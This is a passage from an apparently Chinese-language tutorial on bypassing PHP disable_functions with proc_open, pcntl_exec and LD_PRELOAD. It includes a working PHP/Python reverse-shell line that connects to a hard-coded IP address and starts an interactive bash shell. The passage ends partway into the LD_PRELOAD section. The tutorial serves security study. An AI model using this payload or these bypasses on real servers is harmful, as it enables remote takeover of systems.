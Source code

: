 **proc_open()**

```php
<?php
$command="ipconfig";
$descriptorspec = array(1 => array("pipe", "w"));
$handle = proc_open($command ,$descriptorspec , $pipes);
while(!feof($pipes[1])){     
    echo fread($pipes[1], 1024); //fgets($pipes[1],1024);
}
?>
```

还有一个比较常见的易被忽略的函数就是pcntl_exec。

## 2.2 利用 pcntl_exec

**使用条件：**

PHP安装并启用了pcntl插件

pcntl是linux下的一个扩展，可以支持php的多线程操作。很多时候会碰到禁用exec函数的情况，但如果运维人员安全意识不强或对PHP不甚了解，则很有可能忽略pcntl扩展的相关函数。

`pcntl_exec()`是`pcntl`插件专有的命令执行函数来执行系统命令函数，可以在当前进程空间执行指定的程序。

利用`pcntl_exec()`执行`test.sh`：

```php
<?php
if(function_exists('pcntl_exec')) {
   pcntl_exec("/bin/bash", array("/tmp/test.sh"));
} else {
       echo 'pcntl extension is not support!';
}
?>
```

由于`pcntl_exec()`执行命令是没有回显的，所以其常与python结合来反弹shell：

```php
<?php pcntl_exec("/usr/bin/python",array('-c','import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM,socket.SOL_TCP);s.connect(("132.232.75.90",9898));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'));
```

## 2.3 利用 LD_PRELOAD 环境变量

### 2.3.1 原理简述

`LD_PRELOAD`是Linux系统的一个环境变量，它可以影响程序的运行时的链接（Runtime linker），它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，我们可以以此功能来使用自己的或是更好的函数（无需别人的源码），而另一方面，我们也可以以向别人的程序注入程序，从而达到特定的攻击目的。

我们通过环境变量 `LD_PRELOAD` 劫持系统函数，可以达到不调用 PHP 的各种命令执行函数（system()、exec() 等等）仍可执行系统命令的目的。

想要利用`LD_PRELOAD`环境变量绕过`disable_functions`需要注意以下几点：
